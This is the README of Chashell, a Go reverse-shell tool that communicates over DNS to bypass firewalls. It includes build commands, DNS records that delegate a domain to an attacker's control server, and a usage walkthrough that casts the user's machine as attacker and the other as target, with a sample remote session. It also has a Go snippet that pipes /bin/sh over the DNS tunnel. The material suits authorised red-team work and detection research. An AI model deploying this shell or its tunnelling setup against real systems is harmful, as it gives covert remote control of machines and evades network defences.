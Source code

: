 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicates over DNS. 
It can be used to bypass firewalls or tightly restricted networks.

It comes with a multi-client control server, named *chaserv*.

![Chaserv](img/chaserv.gif)

### Communication security

Every packet is encrypted using symmetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)), with a shared key between the client
and the server.

We plan to implement asymmetric cryptography in the future.

### Protocol

Chashell communicates using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. The `.proto` file is available in the `proto` folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packet is encrypted, hex-encoded and then packed for DNS transportation.

### Supported systems

Chashell should work with any desktop system (Windows, Linux, Darwin, BSD variants) that is supported by the Go compiler.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)
* Mac OS X (386/amd64)

### How to use Chaserv/Chashell

#### Building

Make sure the [GOPATH](https://github.com/golang/go/wiki/GOPATH) environment variable is correctly configured before running those commands.

Build all the binaries (adjust the domain_name and the encryption_key to your needs):


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Build for a specific platform:

```
$ make build-all OSARCH="linux/arm"
```

Build only the server:

```
$ make build-server
```

Build only the client (*chashell* itself):

```
$ make build-client
```

#### DNS Settings

* Buy and configure a domain name of your choice (preferably short).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

#### Usage

Basically, on the server side (attacker's computer), you must use the `chaserv` binary. For the client side (i.e the target), use the `chashell` binary.

So:

* Run `chaserv` on the control server.
* Run `chashell` on the target computer.

The client should now connect back to `chaserv`:

```
[n.chatelain]$ sudo ./chaserv
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

## Implement your own

The *chashell/lib/transport* library is compatible with the *io.Reader* / *io.Writer* interface. So, implementing a reverse shell is as easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the host name using the `InfoPacket` message.
* Create a *proxy/relay* tool in order to tunnel TCP/UDP streams. (Meterpreter over DNS !)

